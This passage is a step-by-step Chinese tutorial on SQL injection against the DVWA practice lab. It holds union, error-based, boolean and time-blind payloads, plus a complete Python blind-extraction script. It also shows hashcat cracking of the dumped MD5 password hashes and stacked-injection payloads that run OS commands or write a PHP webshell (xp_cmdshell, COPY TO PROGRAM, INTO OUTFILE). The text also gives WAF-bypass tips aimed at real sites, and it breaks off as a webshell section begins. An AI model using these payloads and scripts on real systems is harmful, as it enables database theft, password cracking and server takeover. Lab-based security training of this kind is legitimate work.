你的输入   →   拼进 SQL 字符串   →   发给数据库   →   数据库执行   →   结果/报错回到页面
   ↑                                                                        ↓
   └────────────────────  你根据回显/报错/延迟调整 payload  ←──────────────────┘
```

整个过程就是**一个反馈循环**。所谓「有经验」，就是每一轮能从上一次的回显里读出更多信息，少走弯路。

---

## 三、入门：手把手打完 Low 关

从现在开始，每一步我都给你四句话：**在哪做 / 输什么 / 应该看到 / 不对怎么办**。

### 第 0 步：找到这一关，认清页面上三个地方

**在哪做：** 浏览器

左边菜单点 **SQL Injection**，地址栏会变成：

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/
```

页面从上到下是：

1. **一个说明区**：写着 `Vulnerability: SQL Injection`，还有一段英文提示
2. **一个输入框**：`User ID:` 旁边一个白框，右边一个 **Submit** 按钮
3. **结果区**：一个深色的框，查询结果会打印在这里
4. **最下面 `View Source`**：能看到这一关的源码（建议打的时候开着，对照着看很爽）

**请记住三件事：**

- 你的 payload **全部输在输入框里**，然后点 Submit
- 结果**全部出现在结果区**
- 报错也出现在结果区（DVWA 会把它包在一个 `<pre>` 里，字体是等宽的）

### 第 1 步：先看「正常」长什么样

**在哪做：** 输入框
**输什么：**

```
1
```

点 **Submit**。

**应该看到** 结果区出现三行：

```
ID: 1
First name: admin
Surname: admin
```

**这一步看着像废话，其实最关键。** 后面每一次判断，都是拿新结果跟这个「正常长相」比。所以你要记住：

- 正常时，结果区有 `First name:` 这行字
- 正常时，没有红色报错

> 为什么输 `1` 出的是 admin？因为 `users` 表里 `user_id = 1` 的那个人，用户名叫 admin。DVWA 自带的五个用户，第一个就是它。

**不对怎么办：** 如果结果区什么都不显示，先回去确认第 8 步是不是建库成功了（重新访问 `setup.php` 点一次 Create/Reset Database）。如果显示 `Unknow column` 之类的报错，说明你输的内容带了多余字符。

### 第 2 步：加一个引号，看它会不会「说错话」

**在哪做：** 输入框
**输什么：**

```
1'
```

**应该看到** 结果区变成一大段红色或灰色的字，类似：

```
You have an error in your SQL syntax; check the manual that corresponds to
your MariaDB server version for the right syntax to use near ''1''' at line 1
```

**看到报错，就是好消息。** 说明：

1. 你的输入真的进了 SQL（不是被程序丢掉或者过滤）
2. 报错**没有被关掉**，你可以靠报错拿信息

**如果没报错，页面正常显示 admin：** 可能性有三种 ——

- 它把你的引号转义了（变成了 `\'`），这是「有防御」，参考第四节
- 它用的是数字型查询（`WHERE id = $id`，没引号），那你试 `1 and 1=1` 和 `1 and 1=2`
- 错误被关掉了，页面只回一句「查询失败」

DVWA Low 不会出现这三种情况，但真实站点大概率会遇到。**所以这一步的真正意义是：先问一句「它会不会说错话」。**

### 第 3 步：证明「你说的话它真的会执行」

这一步只用两条 payload，但它俩就是整个 SQL 注入的「开关」。

**3.1 先问一句永远为真的话**

**输什么：**

```
1' and 1=1 #
```

**应该看到：** 和输 `1` 时**一模一样**的结果（`admin` / `admin`）。

**3.2 再问一句永远为假的话**

**输什么：**

```
1' and 1=2 #
```

**应该看到：** 结果区**空了**。没有 `First name` 那行，也没报错。

**为什么？** 把 payload 拼进 SQL 看看：

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1 #';
```

`user_id = '1'` 为真，`1=1` 为真，真 and 真 = 真 → 查到数据 → 打印。
换成 `1=2`，真 and 假 = 假 → 查不到 → 什么都不打印。

**这就是你的第一个「注入成功了」的证据。** 你不是在查询，你是在**让数据库替你做逻辑运算**。

**顺便把每个字符的作用记一遍：**

| 字符 | 作用 |
| --- | --- |
| `1` | 原查询要的值（先让它正常，好控制变量） |
| `'` | **闭合**原来那个单引号，让 `user_id = '1'` 这句话说完 |
| ` and ` | 接上你自己的条件（前后要有空格） |
| `1=1` | 你问的问题（真） |
| `#` | 把原句剩下的 `';` **注释掉**，不然句子是断的 |

> 少任何一个都不行：不加 `'` 闭合，你的 `and` 会被当成字符串内容；不注释 `#`，结尾那个孤零零的 `'` 会报语法错。

**3.3 自己玩两下（强烈建议）**

换成下面这些，看结果是不是符合你的预期：

```
1' and 2=2 #
1' and 2>1 #
1' and 1=1 or 1=1 #
1' and 1=2 or 1=1 #
```

前两个应该正常；第三个正常；第四个**也正常** —— 因为 `or 1=1` 把整个条件救回来了。

> 玩这一步的意义：等你以后遇到真实站点，是需要判断「它到底过不过滤 and/or」的。现在先在靶场里把手感练出来。

### 第 4 步：问它「你这条查询有几列」

想用 `union` 把别的东西拼进来，必须先知道原查询输出几列 —— 不然拼不上去，会报错。

用 `order by` 试。`order by 3` 的意思是「按第 3 列排序」，如果根本没有第 3 列，数据库就会报错。

**输什么（一条一条来）：**

```
1' order by 1 #
```

**应该看到：** 正常，`admin` / `admin`。

```
1' order by 2 #
```

**应该看到：** 还是正常。说明**至少有 2 列**。

```
1' order by 3 #
```

**应该看到** 报错：

```
Unknown column '3' in 'order clause'
```

**「Unknown column 3」= 「我没有第 3 列」= 就是 2 列。**

**小技巧：** 别一个一个试，直接跳着试。先 `order by 10 #`，报错就往小跳（`5`），正常就往大跳（`20`）…… 二分法，十列以内三四次就定位了。真实表有二三十列的时候这招很救命。

**不对怎么办：**

- 如果 `order by` 三个字被过滤了（真实站点常见），换成 `group by` 试，报错信息类似
- 如果 `#` 被过滤，换 `-- -`
- 如果数字被当字符串处理（报 `Truncated incorrect DOUBLE value`），说明是字符型上下文，坚持用引号

### 第 5 步：把结果区「借」过来用（union）

`union` 的作用是「把两条查询的结果拼成一份」。注意是**拼成一份**，不是替换 —— 所以前半句查到什么，前半句的结果也在。

**输什么：**

```
1' union select 1,2 #
```

**应该看到** 结果区里出现**两组**：

```
ID: 1
First name: admin
Surname: admin

ID: 1
First name: 1
Surname: 2
```

第二组就是你塞进去的 `1` 和 `2`。**这证明：第 1 列和第 2 列的内容，都会原样打印在页面上。**

这两个位置，从此就是你的「打印口」。你想打印什么，就把它放在这两个位置。

**但是有两组结果很碍眼**，而且真实站点往往只显示第一条。所以要把前半句打成查不到：

```
-1' union select 1,2 #
```

**应该看到：** 只剩一组：

```
ID: -1
First name: 1
Surname: 2
```

`-1` 这个 ID 不存在，所以前半句查空，页面上就只剩你的东西了。**以后所有 union 注入都这么开头：`-1' union select ...`。**

**不对怎么办：**

- 报 `The used SELECT statements have a different number of columns`：你的列数和原查询不一致。回去 `order by` 数清楚，`select 1,2` 里数字的个数必须相等。
- 报 `Illegal mix of collations`：字符集冲突，把数字换成 `null` 或 `database()` 试。

> **为什么非要 2 列？** 因为原查询 `SELECT first_name, last_name` 输出 2 列。union 两边列数必须一样，数据库才能把它们「对齐」成一张表。这个规则很死，但也很有用 —— 报错本身就是一次「列数探测」。

### 第 6 步：问出库名、账号名

**输什么：**

```
-1' union select database(), current_user() #
```

**应该看到：**

```
ID: -1
First name: dvwa
Surname: dvwa@localhost
```

**这两个函数是什么：**

| 函数 | 返回什么 | 比方 |
| --- | --- | --- |
| `database()` | 当前连的是哪个库 | 你现在站在哪间档案室 |
| `current_user()` | 用的哪个数据库账号 | 你胸口挂的工牌 |
| `version()` | 数据库版本 | 这栋楼是哪一年盖的 |
| `@@datadir` | 数据存在硬盘哪个目录 | 档案柜放在哪间屋 |
| `user()` | 同上，等于 `current_user()` | 工牌 |

多问几个，把环境摸清楚：

```
-1' union select version(), @@datadir #
```

**应该看到** 类似 `10.11.6-MariaDB` 和 `/var/lib/mysql/`。

**为什么要问这些？** 因为「能不能写文件」「能不能执行命令」全看这些。版本决定有哪些函数可用，路径决定 `into outfile` 往哪写，账号决定你有没有权限。**这一步在真实渗透里叫「信息收集」，价值比拖数据还高。**

### 第 7 步：查「目录册」，找出有哪些表

数据库里有哪些表、每个表有哪些字段，MySQL 自己记了一本账，叫 `information_schema`。

**比方：** 档案室里有一本**索引册**，写着「第 3 排第 2 格：员工花名册；第 4 排：工资表」。你不用一间间翻，直接查索引。

**输什么：**

```
-1' union select 1, group_concat(table_name) from information_schema.tables where table_schema=database() #
```

**应该看到：**

```
ID: -1
First name: 1
Surname: guestbook,users
```

**逐段拆开看：**

| 这一段 | 什么意思 |
| --- | --- |
| `select 1, group_concat(table_name)` | 第 1 列随便填个 `1`，第 2 列放表名 |
| `from information_schema.tables` | 从「索引册」这个系统表里查 |
| `where table_schema=database()` | 只要**当前这个库**（`dvwa`）的表 |

**`group_concat()` 是干什么的？**

数据库查到多行，但页面只有一个格子给你打印。`group_concat` 把多行用逗号拼成一行：

```
guestbook
users
    ↓
guestbook,users
```

**这个函数是注入里最实用的一个**，记住它：**一个格子，装一整列。**

**应该看到两个表：**

- `guestbook`：留言板（别的关卡用的）
- `users`：用户表 ← 我们要的就是它

**不对怎么办：**

- 报错 `Unknown column 'table_name'`：可能不是 MySQL/MariaDB（SQL Server 用 `sys.tables`，Oracle 用 `all_tables`）
- 只显示一截：说明有长度限制（默认 1024 字节），用 `substr` 分段截

### 第 8 步：找出 `users` 表里有哪些字段

**输什么：**

```
-1' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' #
```

**应该看到：**

```
ID: -1
First name: 1
Surname: user_id,first_name,last_name,user,password,avatar,last_login,failed_login
```

八个字段。我们要的是 `user`（用户名）和 `password`（密码）。

**⚠️ 这里有个坑，也是新手第一个真实障碍：**

`'users'` 里的单引号，在某些环境里会被转义成 `\'`，导致语法错误。解决办法是把字符串换成**十六进制**：

```
users  →  0x7573657273
```

改写成：

```
-1' union select 1, group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

**为什么这样就绕过去了？** 因为十六进制是一串「数字 + 字母」，里面没有引号，转义函数拿它没办法，而 MySQL 认得 `0x...` 就是那个字符串。

**怎么自己转？** 终端里一行：

```bash
python3 -c "print('users'.encode().hex())"
```

输出 `7573657273`，前面加 `0x` 就行。或者用任何一个「字符串转十六进制」的在线工具。

> **这个技巧在真实站点上极其常用**，因为大部分 WAF 和转义函数都在防引号，不防 `0x`。

### 第 9 步：把用户名和密码拖出来

**输什么：**

```
-1' union select user, password from users #
```

**应该看到** 五行：

```
ID: -1
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: -1
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: -1
First name: 1337
Surname: 8d788385431273d11e8b43bb78f3aa41

ID: -1
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: -1
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

**你现在已经拿到整个用户表了。** 在真实系统里，这一步叫「**拖库**」—— 到这里，一个 SQL 注入的基础价值已经兑现了。

**但密码是一串看不懂的东西。** 那是 MD5 哈希：

- 它不可逆（没法从这串东西「算回」密码）
- 但它是**确定的**：同样的密码永远算出同样的 32 位
- 所以可以「猜」：拿一个密码字典，一个个算 MD5，跟这串比对

这就是下一步。

> 想一行打印完，用 `group_concat`：
> `-1' union select 1, group_concat(user, 0x3a, password) from users #`
> `0x3a` 是冒号 `:`，拼出来是 `admin:5f4dcc...` 这种一行一个账号的格式，方便复制去跑 hashcat。

### 第 10 步：把哈希「猜」回密码

**在哪做：** 终端（新开一个就行，不影响浏览器）

**10.1 先把哈希存成一个文件**

```bash
cd ~
echo '5f4dcc3b5aa765d61d8327deb882cf99' > h.txt
```

**这两句在干什么：**

- `cd ~` = 回家目录（`~` 就是 `/home/kali`），免得文件乱丢
- `echo '内容' > h.txt` = 把引号里的内容写进 `h.txt`。`>` 是**重定向**：本来 `echo` 是打印到屏幕，`>` 让它打印到文件

**应该看到：** 没输出。验证一下：

```bash
cat h.txt
```

应该打印出那串哈希。

**10.2 准备字典**

Kali 自带 rockyou 字典（一千四百万个真实泄露过的密码），但它是压缩的，先解压：

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

**应该看到：** 没输出（正常）。检查：

```bash
ls -lh /usr/share/wordlists/rockyou.txt
```

应该看到文件大小一百多 MB。

> 如果提示 `No such file or directory`，说明你的 Kali 版本里没带这个字典，可以 `sudo apt install -y wordlists` 或者去网上下 `rockyou.txt` 放到 `/usr/share/wordlists/`。

**10.3 开跑**

```bash
hashcat -m 0 h.txt /usr/share/wordlists/rockyou.txt
```

**逐段解释：**

| 这一段 | 意思 |
| --- | --- |
| `hashcat` | 跑哈希的工具，Kali 自带 |
| `-m 0` | 哈希类型是 MD5（`0` 就是 MD5 的编号，别的类型编号不同） |
| `h.txt` | 要破解的哈希文件 |
| `rockyou.txt` | 拿这个字典一个个试 |

**应该看到** 一堆启动信息，然后几秒到一分钟内出现：

```
5f4dcc3b5aa765d61d8327deb882cf99:password

Status...........: Cracked
```

**`admin` 的密码是 `password`。** 对，就是这么直白，DVWA 故意的。



**不对怎么办：**

- `No such file or directory: rockyou.txt`：第 10.2 步没做，或者路径写错
- `Exhausted`（跑完没找到）：字典里没有，换字典或者去在线站点查
- 卡在 `Starting`：虚拟机没显卡加速，慢是正常的，MD5 + rockyou 一般也就几十秒
- 提示 `Token length exception`：`h.txt` 里混进了空行或者别的字符，重新 `echo` 一遍

### 如果遇到了以下报错



问题在于 hashcat 找不到 OpenCL 运行时，hashcat 自身不直接运行计算，它只是把内核交给 OpenCL，再由 OpenCL 分派给 CPU 或 GPU。Kali 的预建镜像默认没有安装任何 OpenCL ICD（驱动接口），因此哈希计算没有可用的后端。

在 VMware 的虚拟机里，GPU 是宿主机的虚拟显卡，没有 ROCm/CUDA/NEO，所以直接安装 Intel/AMD 都能用的 CPU 运行时 PoCL：

```bash
sudo apt update
sudo apt install -y pocl-opencl-icd clinfo
```

装完检查：

```bash
clinfo -l      # 应该出现：Platform #0: Portable Computing Language
hashcat -I     # 应该出现：Backend Device ID #1 ... Type: CPU
```

装完重新去跑hashcat -m 0 h.txt /usr/share/wordlists/rockyou.txt

### 想要提升速度

hashcat 为每个 hash mode 准备了两套 OpenCL 内核：

Pure Kernel（你当前使用的）	Optimized Kernel（加 -O）

hashcat 默认增加兼容性：任何长度的密码都能计算，但代价是速度；-O 则增加速度，代价是超过 31 字节的候选直接算不了。

想要速度更快可以做三件事

```bash
# ① 换优化内核（最长 31 字节，够用了）
hashcat -m 0 -O -a 0 h.txt /usr/share/wordlists/rockyou.txt

# ② 拉满工作负载（1 最省电 / 4 最猛）
hashcat -m 0 -O -w 3 -a 0 h.txt /usr/share/wordlists/rockyou.txt

# ③ 自己量一下两档差多少，比听我说更靠谱
hashcat -b -m 0        # 纯内核基准
hashcat -b -m 0 -O     # 优化内核基准
```

如果输出是这样



没跑起来是因为 potfile：上一次那条 5f4dcc…:password 已经被记进 potfile，hashcat 再拿到同一个哈希就直接判定「这条已经解过了」，不重复计算。这不是报错，它是结果缓存。

想要重新跑一遍：

```bash
# 方式一：这次不用 potfile（也不写入）
hashcat -m 0 -O -a 0 h.txt /usr/share/wordlists/rockyou.txt --potfile-disable

# 方式二：用另一个 potfile，不污染默认那个（做实验最干净）
hashcat -m 0 -O -a 0 h.txt /usr/share/wordlists/rockyou.txt --potfile-path ./lab.potfile
```

⚠️ 别用「删 potfile」当日常手段 —— 那里面是你所有解出来的密码，删了等于把之前几小时的算力扔了。

**10.4 想看全部五行？**

把五个哈希一行一个存进文件，然后：

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --show
```

`--show` 是「只显示已经破解出来的结果」，比重新跑一遍快得多。

五个账号的明文，DVWA 自带的就是这些（对不上说明你抄错了哈希）：

| 用户 | 密码 |
| --- | --- |
| admin | password |
| gordonb | abc123 |
| 1337 | charley |
| pablo | letmein |
| smithy | password |

> **真实世界里哈希不长这样。** 现在正经系统用 bcrypt / argon2 / 带盐的 PBKDF2，一个密码一个盐，跑字典的成本高得多。但「拿到哈希 ≠ 白干」：能撞库（同一个人别处也用这密码）、能离线慢跑、能进内网横向。**SQL 注入的价值从来不只在明文，而在「看到数据库里的一切」。**

### 第 11 步：回头看一眼你刚才做了什么

把这一关的操作倒着念一遍，就是一条完整的攻击链：

```
① 输 1              →  知道正常长什么样
② 输 1'             →  知道它会把你的话拼进 SQL，而且报错没关
③ 输 1' and 1=2 #   →  知道你能让数据库做逻辑运算
④ order by 1/2/3    →  知道这条查询输出 2 列
⑤ union select 1,2  →  抢到两个「打印口」
⑥ database()        →  知道自己在哪间库、拿的什么工牌
⑦ information_schema→  查到表名 users
⑧ 同上，查 columns   →  查到字段 user / password
⑨ union select ...  →  拖出五个账号 + 哈希
⑩ hashcat           →  哈希变明文
```

**这张表就是「五步法」的完整版**，以后换任何目标都是这个顺序：**找点 → 数数 → 定位 → 查目录 → 拖数据**。payload 会变，顺序不会变。

### 打完 Low 关，你应该能回答这四个问题

如果你答不上来，回去把对应那一步重做一遍，别急着往下走：

1. **为什么 payload 开头要有一个单引号？**（因为要闭合原查询的字符串）
2. **为什么要 `#`？**（把原句末尾多余的 `';` 注释掉，否则语法不完整）
3. **为什么要先 `order by`？**（union 两边列数必须一致）
4. **`group_concat` 解决什么问题？**（页面只有一个格子，得把多行拼成一行）

---

## 四、进阶：当页面不再告诉你结果

Low 关是「理想世界」：有回显、有报错、什么都不拦。真实世界不是。

这一节按「你还能看到什么」分成几种情况，**先判断自己在哪一档，再挑技术**。

### 0. 先判断：你手上还剩什么信息

| 你还能看到 | 用哪种技术 | 比方 |
| --- | --- | --- |
| 查询结果直接打印在页面上 | **union**（第三节已经会了） | 管理员念给你听 |
| 不打印结果，但会打印报错 | **报错注入** | 管理员不念，但会重复你说错的话 |
| 只有页面「有内容 / 空」的区别 | **布尔盲注** | 管理员只点头或摇头 |
| 连页面都一样，只有快慢不同 | **时间盲注** | 按门铃，看几秒来开门 |
| 以上都不行，但能执行多条语句 | **堆叠注入** | 一张单子写完再订一张 |

**顺序很重要**：能用 union 就别用盲注，能用布尔就别用时间。因为你每降一档，需要的请求数量就翻几十倍。

### 1. 报错注入：让它把答案「念错」出来

**什么时候用：** 页面不显示查询结果，但会显示数据库报错。

**比方：** 管理员不肯念档案内容，但你说了句错话，他纠正你的时候把话说全了 —— 于是你故意说错，让他把你的问题重复一遍。

**原理（一句话）：** MySQL 有几个函数，参数写错时会把参数内容塞进错误信息里。你把查询结果当参数传进去，它就「报错」给你看。

**输什么（DVWA Low 也能打，试试看）：**

```
1' and extractvalue(1, concat(0x7e, (select database()))) #
```

**应该看到** 报错里夹着答案：

```
XPATH syntax error: '~dvwa'
```

`0x7e` 是波浪号 `~`，加在前面当分隔符，方便你在一堆报错文字里一眼认出来。

**另一个函数，效果一样：**

```
1' and updatexml(1, concat(0x7e, (select version())), 1) #
```

**报错大概是：**

```
XPATH syntax error: '~10.11.6-MariaDB'
```

**关键限制：这两个函数一次只能带一个值**（错误信息有长度限制，大概 32 个字符）。想拿长内容要分段：

```
1' and extractvalue(1, concat(0x7e, substr((select group_concat(user,0x3a,password) from users),1,30))) #
```

把 `substr(...,1,30)` 里的 `1` 换成 `31`、`61`…… 一段段拼。

**还有一个不依赖 XPath 的老招**（某些环境 XPath 函数被禁用时用），靠「主键冲突」报错：

```
1' and (select 1 from (select count(*), concat((select database()), floor(rand(0)*2)) x from information_schema.tables group by x) a) #
```

**应该看到：**

```
Duplicate entry 'dvwa1' for key '<group_key>'
```

**报错注入的优点：** 快，一次请求拿一个值。
**缺点：** 脆。函数被禁、报错被关、错误信息被 WAF 拦，任意一条不满足就废。

### 2. 布尔盲注：只能问「是 / 不是」

**什么时候用：** 页面既不显示结果，也不显示报错，但**真和假的页面长得不一样**（一个有内容一个空白、一个长一个短、状态码 200 vs 500）。

**比方：** 二十问游戏。你不能直接问「密码是什么」，但你可以问「密码第一个字母是不是比 m 大」，然后根据他点头摇头往下缩小范围。

**2.1 先手工确认「真假能被区分」**

**输什么：**

```
1' and substr(database(),1,1)='d' #
```

**应该看到：** 正常结果（`admin` / `admin`）—— 因为 `dvwa` 的第一个字母确实是 `d`。

```
1' and substr(database(),1,1)='x' #
```

**应该看到：** 空白。

**能区分真假 = 你有一条 1 bit 的信道。** 剩下的只是「问得够快」。

**这段 payload 逐字拆：**

| 部分 | 意思 |
| --- | --- |
| `substr(字符串, 1, 1)` | 从第 1 个字符开始，取 1 个字符。改 `1,1` 里的第一个 1 就能往后挪 |
| `='d'` | 猜它是不是 d |
| 整句 | 「库名的第 1 个字母是 d 吗？」 |

**2.2 手工问几个，找找感觉**

```
1' and length(database())=4 #          → 库名是不是 4 个字符（dvwa 是 4 个）
1' and ascii(substr(database(),2,1))>100 #  → 第 2 个字母的 ASCII 码是不是大于 100
```

**为什么要用 `ascii()`？** 因为字符比较要考虑大小写、排序规则，容易出意外；转成数字比大小，绝对可靠，而且可以**二分**。

**2.3 让脚本干这件事**

手工一位一位问，问完一个库名要几十次，问完一张表要几千次。必须上脚本。

**（1）先拿到你的 Cookie**

DVWA 靠 Cookie 记住「你登录过」。脚本要模拟你的浏览器，就得带上这个 Cookie。

**在哪做：** 浏览器，停在 DVWA 任意页面
**怎么做：** 按 `F12` 打开开发者工具 → 顶部选 **Console**（控制台）→ 输入：

```javascript
document.cookie
```

**应该看到** 类似：

```
"PHPSESSID=8k3j9f2m1a7b6c5d4e3f2g1h0i; security=low"
```

把这整串复制下来，脚本里要用。

> 也可以走 `Application`（应用）→ 左侧 `Cookies` → 点 `http://127.0.0.1`，能看到同样的东西。两种都行。

**（2）把脚本存成文件**

**在哪做：** 终端
**输什么：**

```bash
cd ~
nano sqli_blind.py
```

把下面整段粘进去（nano 里粘贴是 `Ctrl + Shift + V`）：

```python
import requests

URL = "http://127.0.0.1/dvwa/vulnerabilities/sqli/"

# 把这里换成你 F12 里 document.cookie 拿到的值
COOKIES = {
    "PHPSESSID": "把你的值粘到这里",
    "security": "low",
}


def is_true(payload):
    """发一次请求，判断页面里有没有 'First name'"""
    r = requests.get(
        URL,
        params={"id": payload, "Submit": "Submit"},
        cookies=COOKIES,
        timeout=10,
    )
    return "First name" in r.text


def ask(expr):
    """问数据库一个是非题，expr 必须是能算出真/假的 SQL"""
    return is_true(f"1' and ({expr}) #")


def pick_string(expr, max_len=64):
    """二分法，一位一位把字符串取出来"""
    out = ""
    for pos in range(1, max_len + 1):
        # 先问：这个字符串有第 pos 位吗？
        if not ask(f"length(({expr})) >= {pos}"):
            break

        lo, hi = 32, 126          # 可打印 ASCII 的范围
        while lo < hi:
            mid = (lo + hi) // 2
            if ask(f"ascii(substr(({expr}),{pos},1)) > {mid}"):
                lo = mid + 1
            else:
                hi = mid

        out += chr(lo)
        print(f"\r{out}", end="", flush=True)
    return out


if __name__ == "__main__":
    print("数据库名：", pick_string("select database()"))
    print("当前账号：", pick_string("select user()"))
    print("表名：    ", pick_string("select group_concat(table_name) from information_schema.tables where table_schema=database()"))
```

保存：`Ctrl + O` → 回车 → `Ctrl + X`。

**（3）跑它**

```bash
python3 sqli_blind.py
```

**应该看到** 字符一个一个往外蹦：

```
数据库名： dvwa
当前账号： dvwa@localhost
表名：     guestbook,users
```

**2.4 逐段解释这个脚本，别当黑盒**

| 这一段 | 在干什么 |
| --- | --- |
| `requests.get(URL, params={...})` | 发一个 GET 请求，`params` 会帮你把 payload 做 URL 编码（`'` → `%27`，`#` → `%23`），不用你手动转 |
| `"First name" in r.text` | 整个脚本的**判据**。页面里有这四个字 = 真，没有 = 假。换成别的目标时要改这一行 |
| `length(({expr})) >= {pos}` | 先问「有第 pos 位吗」，没有就说明字符串结束了，退出循环 |
| `ascii(substr(...)) > mid` | 二分：问「这一位的 ASCII 码比 mid 大吗」 |
| `lo, hi = 32, 126` | 可打印字符的范围。95 个可能，二分 7 次就能定一位 |
| `print(..., end="", flush=True)` | 不换行、立刻刷新，让你看到进度条效果 |

**为什么二分这么重要？** 线性问一位要 95 次请求，二分只要 7 次。一个 20 字符的字符串，是 **1900 次 vs 140 次**。真实站点上这个差别就是「十分钟」和「两小时」。

**2.5 常见错误**

| 报错 | 原因 | 怎么办 |
| --- | --- | --- |
| `ModuleNotFoundError: No module named 'requests'` | 没装 requests 库 | `sudo apt install -y python3-requests` |
| 所有结果都是空字符串 | 判据不对（页面里没有 `First name`） | 先手工访问一次，看正常页面到底有什么字 |
| 结果为空，但手工能打 | cookie 过期了 | 重新登录 DVWA，重新取 cookie |
| 返回一堆 `~` 或者乱码 | payload 被过滤了 | 换 `-- -` 代替 `#`，或换十六进制 |
| `IndentationError` | 粘贴时缩进乱了 | 用 `nano` 的 `Ctrl + W` 找到那行，用空格补齐 |

### 3. 时间盲注：连真假都看不出来的时候

**什么时候用：** 页面完全一样 —— 查到查不到都返回同一个页面、同样长度、同样状态码。

**比方：** 你敲门问「在吗」，屋里不出声。但你能听见脚步声：**三秒才来开门**，说明他走到里屋去了；**立刻开门**，说明他就在门口。你用「多久」当信息。

**3.1 先确认「时间能被控制」**

**输什么：**

```
1' and sleep(3) #
```

**应该看到：** 页面**卡三秒**才加载完。盯着浏览器的转圈就行。

**如果秒回：** 要么 `sleep` 被过滤了（换 `benchmark(10000000, md5('a'))`），要么不是 MySQL（SQL Server 用 `waitfor delay '0:0:3'`，PostgreSQL 用 `pg_sleep(3)`）。

**3.2 把问题塞进条件里**

```
1' and if(substr(database(),1,1)='d', sleep(3), 0) #
```

**逐字拆：**

| 部分 | 意思 |
| --- | --- |
| `if(条件, A, B)` | 条件真就返回 A，假就返回 B |
| `sleep(3)` | 睡 3 秒（返回 0） |
| `0` | 不睡 |
| 整句 | 「库名第 1 个字母是 d 吗？是就睡 3 秒」 |

**3.3 复用布尔脚本，只改一个函数**

把 `is_true()` 换掉就行，其他一行不改：

```python
import time

def is_true(payload):
    t0 = time.time()
    requests.get(URL, params={"id": payload, "Submit": "Submit"},
                 cookies=COOKIES, timeout=15)
    return (time.time() - t0) > 2.5      # 超过 2.5 秒 = 真
```

**代价：** 一位 7 次请求 × 3 秒 ≈ 21 秒。一个库名 4 位 = 一分半。一张表就上小时了。

**所以时间盲注是最后的选项。** 真实渗透里只有「别的招全废」才用，而且一般只取最关键的一两个值（管理员密码哈希、数据库名），不会拿它拖整库。

> 有个减少请求数的技巧：一次让 `sleep` 睡 N 秒，用 N 编码多个 bit（多秒=1，少秒=0），俗称「时间信道编码」。知道有这回事就行。

### 4. 堆叠注入：一张单子写完，再订一张

**什么时候用：** 后端允许一次执行多条语句（`mysqli_multi_query()`、JDBC `Statement.execute()`、.NET `SqlCommand` 等）。

**比方：** 窗口一次只收一张单子，但你把两张订在一起递进去，他还真给你做了两件事。

**payload 长这样（注意分号）：**

```sql
1'; update users set password='123456' where user='admin'; #
```

**⚠️ 在 DVWA 里打不通**，因为 Low 关用的是 `mysqli_query()`，一次只执行一条语句。这不是你写错了，是这关不支持。

**判断目标支不支持，靠这几件事：**

| 后端写法 | 能不能堆叠 |
| --- | --- |
| PHP `mysqli_query()` | 不能 |
| PHP `mysqli_multi_query()` | 能 |
| PHP PDO `query()` | 一般不能 |
| Java JDBC `Statement.execute()` | 能 |
| .NET `SqlCommand` | 能（SQL Server 默认允许） |

**为什么这条这么重要？** 因为**堆叠是把「读」升级成「写」和「执行」的桥**：

```sql
-- SQL Server：直接调系统命令
1'; EXEC master..xp_cmdshell 'whoami'; --

-- PostgreSQL：用 COPY 让数据库进程执行命令
1'; COPY (SELECT '') TO PROGRAM 'id > /tmp/pwned'; --

-- MySQL：写文件（需要 FILE 权限）
1'; SELECT '<?php system($_GET[c]);?>' INTO OUTFILE '/var/www/html/s.php'; --
```

**记住 PostgreSQL 那条 `COPY ... PROGRAM`。** 2026 年被在野利用的 Sangoma Switchvox 那个洞，走的就是这条路 —— 数据库的原生功能变成了命令执行器。

### 5. 二次注入：存进去的时候没事，用的时候炸了

**什么时候用：** 你输入的地方过滤得很严，但**这个值后来被从数据库取出来，又拼进了另一条 SQL**。

**比方：** 意见箱只收纸条，不管内容。你塞进一张「明早把大门打开」。三天后管理员整理意见箱，**照着纸条办了**。

**典型代码（注册 + 改密码）：**

```php
// 第一步：注册。用了转义，看起来安全
$user = mysqli_real_escape_string($db, $_POST['username']);   // 你输：admin'-- -
$db->query("INSERT INTO users(username, password) VALUES ('$user', '$pwd')");
// 数据库里存的就是 admin'-- - 这串原文

// 第二步：改密码。从库里读出来，直接拼，没转义
$row = $db->query("SELECT username FROM users WHERE id = $uid")->fetch_assoc();
$db->query("UPDATE users SET password='$new' WHERE username='{$row['username']}'");
// 拼完变成：UPDATE users SET password='x' WHERE username='admin'-- -'
```

结果：**你把自己账号的密码，改成了 admin 的密码。**

**这类洞特别难扫，因为：**

- 扫描器把 payload 发到注册接口，被转义了，看着「安全」
- 真正触发是在另一个接口，需要你先注册、再登录、再改密码
- 只有人读代码才能发现「这个变量从库里出来后去哪了」

**审计时的关键问题：** 不是「入口过滤了吗」，而是「**这个值从库里出来之后，被拼到哪去了**」。

### 6. 宽字节注入：两个字手拉手，把保镖挤开

**什么时候用：** 老系统、中文站，数据库连接用 GBK 编码。

**比方：** 门口保安只认得「反斜杠」这个人，看见就拦。但两个汉字手拉手走过去，保安以为是「一个普通汉字」，直接放行 —— 其实后面那个引号已经偷偷溜进去了。

**原理（两句话）：**

1. 转义函数会在引号前加一个反斜杠 `\`（`0x5c`），把 `'`（`0x27`）变成 `\'`（`0x5c27`），引号就失效了
2. 但如果字符集是 GBK，你输入 `%df%27`，转义后变成 `%df%5c%27` —— 而 `0xdf5c` 在 GBK 里正好是汉字「運」，`\` 被「吃掉」了，`%27` 裸露出来成了真正的引号

**payload：**

```
?id=1%df' and 1=1 #
```

**前提：** 连接字符集是 GBK（`SET NAMES gbk`）。现在新系统基本都是 utf8mb4，这个洞少了，但老 CMS、老外包后台里还有 —— 看到「中文站 + 十年前写的 PHP」可以试。

### 7. 从「能读」到「能执行」：写一个 webshell

这一节是 Low 关里最爽的一步：**从「能看数据库」升级到「能在服务器上敲命令」**。

**比方：** 前面你只是在档案室里翻本子。写文件 = 你往档案室墙上装了一个对讲机，从此你说什么，屋里的人就干什么。

